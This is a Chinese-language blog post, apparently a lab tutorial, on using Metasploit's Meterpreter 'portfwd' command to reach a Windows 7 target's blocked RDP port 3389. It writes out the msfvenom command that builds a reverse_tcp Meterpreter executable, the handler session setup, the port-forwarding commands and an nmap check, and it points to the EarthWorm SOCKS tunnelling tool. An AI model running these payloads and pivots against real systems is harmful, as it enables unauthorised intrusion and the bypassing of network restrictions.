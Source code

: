 ```yaml
---
layout: post
title: Metasploit 「网络穿透」端口转发
comments: false
description: ""
keywords: "Tricks"
---
```


Metasploit下Meterpreter中有一个网络命令，可以替代lcx，nc等来解决大部分端口转发问题；

命令：`portfwd`

## 情况？

Mac【Metasploit】：192.168.43.100

Win7【目标机】：192.168.43.103【桥接】，开启3389端口方便检测验证

实际场景：目标机特殊端口禁止外网访问【如3389...】等等；

## portfwd

拿到目标机的 meterpreter shell；

```
[Go0s]: ~ 
➜  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > ~/Desktop/shell.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
```

直接在跳板机运行上线；

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.43.100
lhost => 192.168.43.100
msf exploit(handler) > exploit 

[*] Started reverse TCP handler on 192.168.43.100:4444 
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.103:49236) at 2018-01-09 11:28:21 +0800
```

使用portfwd进行转发，portfwd是Meterpreter shell的一个网络命令，要先进入这个session；

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -R        Indicates a reverse port forward.
    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.

meterpreter > portfwd add -l 3389 -r 192.168.43.103 -p 3389
[*] Local TCP relay created: :3389 <-> 192.168.43.103:3389

meterpreter > portfwd

Active Port Forwards
====================

   Index  Local         Remote               Direction
   -----  -----         ------               ---------
   1      0.0.0.0:3389  192.168.43.103:3389  Forward

1 total active port forwards.
```

命令：`portfwd add -l 3389 -r 192.168.43.103 -p 3389`

意思是将远端3389端口转到本地3389端口并监听；

链接本地127.0.0.1:3389即可登陆到远程服务器；

oth.

```
列出端口转发条目
portfwd list

删除id为1的端口转发
portfwd delete -i 1

清空所有转发
portfwd flush
```

## 验证

本地查看端口和服务；

```
[Go0s]: ~ 
➜  netstat -antp tcp | grep 3389
(standard input):3:tcp4       0      0  *.3389                 *.*                    LISTEN     

➜  sudo nmap -sS -p 3389 127.0.0.1  
Password:

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-11 11:35 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00014s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

使用Microsoft Remote Desktop登陆127.0.0.1:3389；

![QQ20180111-114210@2x.png](/assets/images/2018-01-09/1661489601.png)

成功登陆；

![QQ20180111-114004@2x.png](/assets/images/2018-01-09/3599794516.png)

## 弊端？

实际使用Portfwd效果可能会差，因为当数据流过大时候会将Meterpreter直接搞掉；

使用Socks5代理的ew效果会很好，含各种代理各种平台；

ew下载地址： [http://rootkiter.com/EarthWorm](http://rootkiter.com/EarthWorm/)

